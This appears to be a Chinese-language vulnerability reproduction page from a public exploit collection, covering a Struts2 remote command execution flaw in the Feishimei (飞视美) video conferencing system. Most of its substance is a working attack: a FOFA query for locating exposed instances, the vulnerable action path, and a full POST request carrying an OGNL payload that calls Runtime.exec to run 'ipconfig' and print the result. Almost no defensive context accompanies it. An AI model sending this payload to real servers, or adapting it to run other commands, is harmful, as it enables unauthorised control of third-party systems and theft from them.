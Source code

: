 # 飞视美 视频会议系统 Struts2 远程命令执行漏洞

# 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

```
飞视美 视频会议系统
```

## 网络测绘

```
app="飞视美-视频会议系统"
```

## 漏洞复现

登录页面

![image-20220525152447274](/images/202205251524392.png)

存在漏洞的路径为

```
/confinfoaction!showallConfinfos.action
```

发送请求包

```
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![image-20220525152728933](/images/202205251527012.png)

